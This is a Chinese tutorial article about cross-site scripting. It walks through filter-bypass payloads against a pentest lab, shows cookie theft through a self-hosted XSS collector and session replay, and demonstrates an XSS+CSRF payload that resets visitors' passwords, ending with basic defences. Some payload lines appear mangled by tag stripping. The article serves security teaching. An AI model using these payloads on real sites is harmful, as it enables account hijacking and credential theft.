# 浅谈XSS攻击的那些事（附常用绕过姿势）

[一叶知安征稿](https://zhuanlan.zhihu.com/p/26012925)


## **前言**

随着互联网的不断发展，web应用的互动性也越来越强。但正如一个硬币会有两面一样，在用户体验提升的同时安全风险也会跟着有所增加。今天，我们就来讲一讲web渗透中常见的一种攻击方式：**XSS攻击**。

## **什么是XSS攻击**

先上一段标准解释（摘自百度百科）。

> “XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。”

相信以上的解释也不难理解，但为了再具体些，这里举一个简单的例子，就是留言板。我们知道留言板通常的任务就是把用户留言的内容展示出来。正常情况下，用户的留言都是正常的语言文字，留言板显示的内容也就没毛病。然而这个时候如果有人不按套路出牌，在留言内容中丢进去一行

```text
<script>alert(“hey!you are attacked”)</script>
```

那么留言板界面的网页代码就会变成形如以下：

```text
<html>
    <head>
       <title>留言板</title>
    </head>
<body>
<div id=”board” 
        <script>alert(“hey!you are attacked”)</script>
</div>     
    </body>
</html>
```

那么这个时候问题就来了，当浏览器解析到用户输入的代码那一行时会发生什么呢？答案很显然，浏览器并不知道这些代码改变了原本程序的意图，会照做弹出一个信息框。就像这样。




## **XSS的危害**

其实归根结底，XSS的攻击方式就是想办法“教唆”用户的浏览器去执行一些这个网页中原本不存在的前端代码。

可问题在于尽管一个信息框突然弹出来并不怎么友好，但也不至于会造成什么真实伤害啊。的确如此，但要说明的是，这里拿信息框说事仅仅是为了举个栗子，真正的黑客攻击在XSS中除非恶作剧，不然是不会在恶意植入代码中写上alert（“say something”）的。

在真正的应用中，XSS攻击可以干的事情还有很多，这里举两个例子。

- **窃取网页浏览中的cookie值**


在网页浏览中我们常常涉及到用户登录，登录完毕之后服务端会返回一个cookie值。这个cookie值相当于一个令牌，拿着这张令牌就等同于证明了你是某个用户。

如果你的cookie值被窃取，那么攻击者很可能能够直接利用你的这张令牌不用密码就登录你的账户。如果想要通过script脚本获得当前页面的cookie值，通常会用到document.cookie。

试想下如果像空间说说中能够写入xss攻击语句，那岂不是看了你说说的人的号你都可以登录（不过某些厂商的cookie有其他验证措施如：Http-Only保证同一cookie不能被滥用）


- **劫持流量实现恶意跳转**


这个很简单，就是在网页中想办法插入一句像这样的语句：

```js
<script>window.location.href="http://www.baidu.com";</script>
```

那么所访问的网站就会被跳转到百度的首页。

早在2011年新浪就曾爆出过严重的xss漏洞，导致大量用户自动关注某个微博号并自动转发某条微博。具体各位可以自行百度。

## **利用与绕过**

那xss漏洞很容易被利用吗？那倒也未必。

毕竟在实际应用中web程序往往会通过一些过滤规则来组织代有恶意代码的用户输入被显示。

不过，这里还是可以给大家总结一些常用的xss攻击绕过过滤的一些方法，算是抛砖引玉。（以下的绕过方式皆通过渗透测试平台Web For Pentester 演示）

- **大小写绕过**


这个绕过方式的出现是因为网站仅仅只过滤了<script>标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：



利用语句：

> [http://192.168.1.102/xss/example2.php?name=alert("hey!")](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example2.php%3Fname%3D%3CsCript%3Ealert(%22hey!%22)%3C/scRipt%3E)

- **利用过滤后返回语句再次构成攻击语句来绕过**


这个字面上不是很好理解，用实例来说。

如下图，在这个例子中我们直接敲入script标签发现返回的网页代码中script标签被去除了，但其余的内容并没有改变。



于是我们就可以人为的制造一种巧合，让过滤完script标签后的语句中还有script标签（毕竟alert函数还在），像这样：

> [http://192.168.1.102/xss/example3.php?name=pt>alert("hey!")pt>](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example2.php%3Fname%3D%3CsCript%3Ealert(%22hey!%22)%3C/scRipt%3E)

发现问题了吧，这个利用原理在于只过滤了一个script标签。

- **并不是只有script标签才可以插入代码**


在这个例子中，我们尝试了前面两种方法都没能成功，原因在于script标签已经被完全过滤，但不要方，能植入脚本代码的不止script标签。

例如这里我们用标签做一个示范。

我们利用如下方式：

> [http://192.168.1.102/xss/example4.php?name=
> src='w.123' onerror='alert("hey!")'>

就可以再次愉快的弹窗。原因很简单，我们指定的图片地址根本不存在也就是一定会发生错误，这时候onerror里面的代码自然就得到了执行。

以下列举几个常用的可插入代码的标签。

```text
<a onmousemove=’do something here’> 
```

当用户鼠标移动时即可运行代码

```text
<div onmouseover=‘do something here’> 
```

当用户鼠标在这个块上面时即可运行（可以配合weight等参数将div覆盖页面，鼠标不划过都不行）

类似的还有onclick，这个要点击后才能运行代码，条件相对苛刻，就不再详述。

- **编码脚本代码绕过关键字过滤**


有的时候，服务器往往会对代码中的关键字（如alert）进行过滤，这个时候我们可以尝试将关键字进行编码后再插入，不过直接显示编码是不能被浏览器执行的，我们可以用另一个语句eval（）来实现。eval()会将编码过的语句解码后再执行，简直太贴心了。

例如alert(1)编码过后就是

```text
\u0061\u006c\u0065\u0072\u0074(1)
```

所以构建出来的攻击语句如下：

> [http://192.168.1.102/xss/example5.php?name=eval(\u0061\u006c\u0065\u0072\u0074(1))](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example5.php%3Fname%3D%3Cscript%3Eeval(/u0061/u006c/u0065/u0072/u0074(1))%3C/script%3E)

- **主动闭合标签实现注入代码**


来看这份代码：




乍一看，哇！自带script标签。再一看，WTF！填入的内容被放在了变量里！

这个时候就要我们手动闭合掉两个双引号来实现攻击，别忘了，javascript是一个弱类型的编程语言，变量的类型往往并没有明确定义。

思路有了，接下来要做的就简单了，利用语句如下：

> [http://192.168.1.102/xss/example6.php?name=](https://link.zhihu.com/?target=http%3A//192.168.1.102/xss/example6.php%3Fname%3D)";alert("I am
> coming again~");"

效果如图。




回看以下注入完代码的网页代码，发现我们一直都在制造巧合。。



先是闭合引号，然后分号换行，加入代码，再闭合一个引号，搞定！

- **组合各种方式**


在实际运用中漏洞的利用可能不会这么直观，需要我们不断的尝试，甚至组合各种绕过方式来达到目的。

介绍完一些常用的绕过方式，再倒回来讲一下XSS分类，因为下面讲具体的应用时会用到。

**XSS攻击大致上分为两类：**

> 一类是反射型XSS，又称非持久型XSS，
> 一类是储存型XSS，也就是持久型XSS。

## **什么是反射型XSS**

其实，我们上面讲XSS的利用手段时所举的例子都是非持久型XSS。

也就是攻击相对于访问者而言是一次性的，具体表现在我们把我们的恶意脚本通过url的方式传递给了服务器，而服务器则只是不加处理的把脚本“反射”回访问者的浏览器而使访问者的浏览器执行相应的脚本。

也就是说想要触发漏洞，需要访问特定的链接才能够实现。

## **什么是储存型XSS**

它与反射型XSS最大的不同就是服务器再接收到我们的恶意脚本时会将其做一些处理。

例如储存到数据库中，然后当我们再次访问相同页面时，将恶意脚本从数据库中取出并返回给浏览器执行。这就意味着只要访问了这个页面的访客，都有可能会执行这段恶意脚本，因此储存型XSS的危害会更大。

还记得在文章开头提到的留言板的例子吗？那通常就是储存型XSS。当有人在留言内容中插入恶意脚本时，由于服务器要像每一个访客展示之前的留言内容，所以后面的访客自然会接收到之前留言中的恶意脚本而不幸躺枪。

这个过程一般而言只要用户访问这个界面就行了，不像反射型XSS，需要访问特定的URL。

## **实例应用**

**1、劫持访问**

劫持访问就是在恶意脚本中插入诸如的代码，那么页面就会跳转到百度首页。

劫持访问在持久型和非持久型XSS中都比较常被利用。持久型XSS中劫持访问的危害不用说大家都清楚，但有人会问非持久型XSS中劫持访问有什么作用呢？

很简单，试想下像[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)，[http://baidu.com](https://link.zhihu.com/?target=http%3A//baidu.com)这样的域名下出现非持久型XSS，那么在发送钓鱼链接时就可以通过[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)等域名进行跳转，一般人一看到[http://qq.com](https://link.zhihu.com/?target=http%3A//qq.com)之类的域名警惕性会下降，也就更容易上当了。

**2、盗用cookie实现无密码登录**

具体原理上文已经提到，这里做一个具体演示。由于盗取的cookie需要传回给攻击者，因此往往需要一个服务器来接收盗取的cookie，这也就是xss平台的作用了。网上的xss平台很多，但动手搭建一个也不难，建议有条件的自己搭建。

首先登录平台后台获取到js脚本地址为[http://127.0.0.1/XSS/template/default.js](https://link.zhihu.com/?target=http%3A//127.0.0.1/XSS/template/default.js)，所以我们需要做的是把这段代码植入指定页面。

（这里以DVWA渗透测试平台为例）




我们发现网页对于message长度有限制。审查元素看一下。



发现最大长度有限制，但这仅仅是前端的限制，直接双击修改成更大的数字即可。再次尝试，没问题，我们已经将脚本植入完毕。



然后就是坐等别的用户访问这个界面。

这时，另一个用户gordonb登录并访问了留言界面，那么他的cookie就会被窃取。我们可以从xss平台的后台获取到。



拿到cookie之后要登录他的帐号就好办了。

打开登录界面，调出火狐的firebug插件，调至cookie选项卡（注意，如果你的firebug插件没有cookie选项卡，请再安装firecookie插件即可看到）

然后依次点击cookies-create cookie，随后再弹出的界面中填入两个xss平台获取到的cookie，如图




这里注意要把我箭头所指的地方勾上，这是设置cookie有效期的地方，不然会在设置完下一秒cookie就失效。



完成之后再次刷新页面，发现已经不是之前的登录界面了，而是登录后的界面。至此，一个从cookie窃取到利用的过程就已完成。




**3、配合csrf攻击完成恶意请求**

先简单解释以下csrf攻击。Csrf攻击就是在未经你许可的情况下用你的名义发送恶意请求（比如修改密码，银行转账等），下面演示一个用xss配合csrf修改用户密码的例子。

首先对修改用户密码的界面进行抓包。




发现没有对原密码进行校验。于是一股邪恶的力量油然而生：要是在xss的恶意脚本中自动提交get请求修改密码的话。。

说干就干，具体插入语句如下:

```js
<script type="text/javascript" src="http://127.0.0.1/test/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#"></script>
```

有人会问，这不是引用脚本吗?其实不然，本质上这还是发起了一起get请求，因此可以直接使用。与上例一样，插入到message中，再坐等上钩。等下一个用户访问该界面时，密码就会被改为123456了。

我们再看下访问该页面时的抓包情况，发现每次访问该页面都发送了更改密码的请求




效果看数据库（密码md5加密）



访问了该页面的用户密码都被更改了。

## **防范手段**

都说知己知彼方能百战不殆，知道了xss攻击的原理那么防御的方法也就显而易见了。

- 首先是过滤。对诸如<script>、、<a>等标签进行过滤。
- 其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。
- 最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

**后话**

安全攻防双方的博弈永远都不会停止，也正是这种博弈推进了信息安全的发展。究竟是道高一尺还是魔高一丈很难定论。其实安全问题归根结底还是一个信任的前提。什么输入值得信任？什么输入不值得信任需要特殊处理是安全人员常常要思考的一个问题。

（以上内容如有错误之处，敬请指正，谢谢！）